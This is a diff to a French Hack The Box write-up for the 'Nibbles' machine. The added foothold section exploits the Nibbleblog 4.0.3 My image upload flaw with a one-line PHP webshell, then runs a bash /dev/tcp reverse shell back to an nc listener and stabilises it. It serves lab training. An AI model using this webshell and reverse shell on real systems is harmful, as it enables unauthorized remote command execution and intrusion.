

nibbles.htb fin de pise pied

diff --git a/content/writeups/nibbles/index.md b/content/writeups/nibbles/index.md
@@ -540,25 +540,242 @@ Tu arrives alors dans le panneau d’administration de Nibbleblog.
 
 L’accès à cette interface est une étape importante : elle te donne accès aux fonctionnalités internes de Nibbleblog, notamment à la gestion des plugins.
 
----
+### Recherche d’une vulnérabilité connue
+
+La version de Nibbleblog étant maintenant identifiée, tu peux rechercher si cette version est associée à une vulnérabilité connue.
+
+Une recherche simple sur Google avec les mots-clés suivants permet de trouver plusieurs résultats pertinents :
+
+```text
+nibbleblog v4.0.3 vulnerabilities -nibbles
+```
+
+![Recherche Google sur les vulnérabilités de Nibbleblog v4.0.3](vulnerability-google-search.png)
+
+Parmi les résultats, le site Vulners référence une vulnérabilité publiée à l’origine par Curesec / Packet Storm :
+
+```url
+https://vulners.com/packetstorm/PACKETSTORM:133425
+```
+
+L’avis de sécurité décrit une vulnérabilité de type **Code Execution** dans **Nibbleblog 4.0.3**.
+
+Le point important est le suivant : le plugin **My image**, fourni par défaut avec Nibbleblog, conserve l’extension originale du fichier envoyé.
+
+L’application ne vérifie pas correctement le type réel du fichier ni son extension avant de l’écrire sur le serveur.
+
+Cela signifie qu’un utilisateur authentifié dans l’administration peut envoyer un fichier PHP à la place d’une image.
+
+Une fois le fichier uploadé, il peut ensuite être appelé depuis le navigateur, ce qui permet d’exécuter du code PHP côté serveur.
+
+L’avis précise que des identifiants administrateur sont nécessaires et que les warnings éventuels pendant l’upload peuvent être ignorés.
+
+Cela correspond à la situation observée : tu as accès à l’administration de Nibbleblog et le plugin **My image** est présent.
+
+L’objectif est donc maintenant de vérifier concrètement cette vulnérabilité sur la machine, en envoyant un petit fichier PHP de test via le plugin **My image**.
+
+### Exploitation du plugin My image
+
+Tu vérifies maintenant concrètement la vulnérabilité décrite dans l’avis de sécurité.
+
+Sur Kali, tu crées un fichier PHP minimal :
+
+```bash
+nano shell.php
+```
+
+Avec le contenu suivant :
+
+```php
+<?php system($_GET['cmd']); ?>
+```
+
+Ce fichier permet d’exécuter une commande passée dans le paramètre `cmd`.
+
+Depuis l’administration de Nibbleblog, tu ouvres le plugin **My image** et tu uploades le fichier `shell.php`.
+
+![Upload d’un fichier PHP via le plugin My image de Nibbleblog](MyImage.png)
+
+Comme indiqué dans l’avis de sécurité, les warnings éventuels pendant l’upload peuvent être ignorés.
+
+Le fichier est ensuite accessible à l’emplacement par défaut du plugin :
+
+```url
+http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
+```
+
+Tu vérifies l’exécution de commande avec `id` :
+
+```url
+http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=id
+```
+
+La réponse confirme que le PHP est exécuté côté serveur :
+
+```bash
+uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
+```
+
+La vulnérabilité est confirmée : tu disposes maintenant d’une exécution de commande en tant qu’utilisateur `nibbler`.
+
+### Passage du webshell au reverse shell
+
+L’exécution de commande via le paramètre `cmd` fonctionne, mais ce n’est pas très confortable pour explorer la machine.
+
+Tu vas donc utiliser cette exécution de commande pour obtenir un shell interactif vers Kali.
+
+Sur Kali, tu ouvres d’abord un listener :
+
+```bash
+rlwrap -cAr nc -lvnp 4444
+```
+
+Ensuite, depuis le webshell PHP, tu exécutes une commande de reverse shell Bash.
+
+```url
+http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.x.x/4444+0>%261'
+```
+
+Les caractères spéciaux sont encodés pour que la commande passe correctement dans l’URL :
+
+- `%26` correspond au caractère `&` ;
+- les `+` remplacent les espaces dans la requête.
+
+Sur le listener Kali, tu reçois une connexion :
+
+```bash
+connect to [10.10.x.x] from (UNKNOWN) [10.129.x.x] ...
+bash: cannot set terminal process group ...
+bash: no job control in this shell
+nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
+```
+
+Tu obtiens ainsi un shell sur la machine cible en tant qu’utilisateur `nibbler`.
+
+Tu peux le confirmer avec :
+
+```bash
+id
+```
+
+Résultat :
+
+```bash
+uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
+```
+
+Le shell initial est obtenu. Il reste maintenant à le stabiliser pour travailler plus confortablement.
+
+### Stabilisation du shell
+
+Le shell obtenu est fonctionnel, mais il reste limité : il n’a pas de vrai terminal interactif et affiche notamment le message suivant :
+
+```bash
+bash: no job control in this shell
+```
+
+Pour travailler plus confortablement, tu stabilises le reverse shell avec la méthode habituelle : {{< recette "stabiliser-reverse-shell" >}}
+
+
+
+
+
+Dans le shell obtenu sur la cible, tu lances d’abord Python pour obtenir un pseudo-terminal :
+
+```bash
+python3 -c 'import pty; pty.spawn("/bin/bash")'
+```
+
+Tu mets ensuite le shell en arrière-plan avec :
+
+```text
+Ctrl+Z
+```
+
+De retour sur Kali, tu désactives l’écho local et tu remets le shell au premier plan :
+
+```bash
+stty raw -echo; fg
+```
+
+Si l’affichage du terminal reste perturbé, tu peux désactiver à nouveau l’écho côté shell :
+
+```bash
+stty -echo
+```
+
+Tu définis ensuite le type de terminal :
+
+```bash
+export TERM=xterm
+```
+
+Tu ajustes enfin la taille du terminal selon les dimensions de ta fenêtre Kali :
+
+```bash
+stty rows 40 columns 120
+```
+
+Après stabilisation, tu vérifies l’utilisateur courant :
+
+```bash
+id
+```
+
+Résultat :
+
+```bash
+uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
+```
+
+Tu te déplaces ensuite dans le répertoire personnel de l’utilisateur :
+
+```bash
+cd ~
+pwd
+```
+
+Résultat :
+
+```bash
+/home/nibbler
+```
+
+
+
+### Récupération du flag utilisateur
+
+Une fois dans le répertoire personnel de `nibbler`, tu listes les fichiers disponibles :
+
+```bash
+ls -l
+```
+
+Résultat :
+
+```bash
+total 8
+-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
+-r-------- 1 nibbler nibbler   33 Jun 12 09:01 user.txt
+```
+
+Le fichier `user.txt` est lisible par l’utilisateur courant.
+Tu peux donc récupérer le flag utilisateur :
+
+```bash
+cat user.txt
+ff92xxxxxxxxxxxxxxxxxxxxxxxxxxxffbb
+```
+
+La prise de pied est terminée : tu disposes d’un shell stabilisé en tant qu’utilisateur `nibbler`, et le flag utilisateur a été récupéré.
+
+L’étape suivante consiste à analyser le fichier `personal.zip` et à chercher une possibilité d’escalade de privilèges depuis cette session.
 
 
 
 ## Escalade de privilèges
 
-{{< escalade-intro user="ssh_user" >}}
-
-### Observation passive avec pspy64
-
-```bash
-./pspy64
-```
-
-Si système 32 bits :
-
-```bash
-./pspy32
-```
+{{< escalade-intro user="nibbler" >}}
 
 ### Vérification sudo
 
@@ -575,121 +792,6 @@ pwd
 uname -a
 hostname
 find /home /opt -type f -readable 2>/dev/null
-```
-
-### Capabilities
-
-```bash
-getcap -r / 2>/dev/null
-```
-
-### SUID
-
-```bash
-python3 suid3num.py
-```
-
-Alternative :
-
-```bash
-find / -perm -4000 -type f 2>/dev/null
-```
-
-### Services locaux
-
-```bash
-ss -tulnp
-```
-
-Alternative :
-
-```bash
-netstat -tulnp
-```
-
-### Recherche d’un service derrière un port local
-
-Exemple avec le port `8080` :
-
-```bash
-grep -r ':8080' /etc 2>/dev/null
-```
-
-Recherche élargie :
-
-```bash
-grep -r '8080' /etc 2>/dev/null
-```
-
-### Tunnel SSH vers un service local
-
-Exemple avec un service local sur `127.0.0.1:8080` :
-
-```bash
-ssh -L 8080:127.0.0.1:8080 user@target
-```
-
-Accès depuis Kali :
-
-```text
-http://localhost:8080
-```
-
-### Linpeas
-
-```bash
-./linpeas.sh
-```
-
-### Dernier recours : le kernel
-
-```bash
-uname -a
-./les.sh
-```
-
-### Conclusion de l’énumération privilege escalation
-
-À la fin de cette phase, tu peux résumer les pistes testées :
-
-* sudo
-* contexte utilisateur
-* fichiers lisibles
-* capabilities
-* SUID
-* cron et timers
-* services locaux
-* LinPEAS
-* kernel
-
-Dans ce cas précis, la piste exploitable est :
-
-```text
-<résumer ici la piste réellement exploitée>
-```
-
-### Exploitation de la piste identifiée
-
-Tu exploites ensuite la mauvaise configuration identifiée pendant l’énumération.
-
-```bash
-<commandes d’exploitation>
-```
-
-Tu confirmes l’élévation de privilèges :
-
-```bash
-whoami
-id
-hostname
-```
-
-Résultat attendu :
-
-```text
-root
-uid=0(root) gid=0(root) groups=0(root)
-machine
 ```
 
 ### root.txt
@@ -711,9 +813,6 @@ Cette étape termine l’escalade de privilèges.
 
 ---
 
-## Pièces jointes (optionnel)
 
-- Scripts, one-liners, captures, notes.  
-- Arbo conseillée : `files/<nom_ctf>/…`
 
 {{< feedback >}}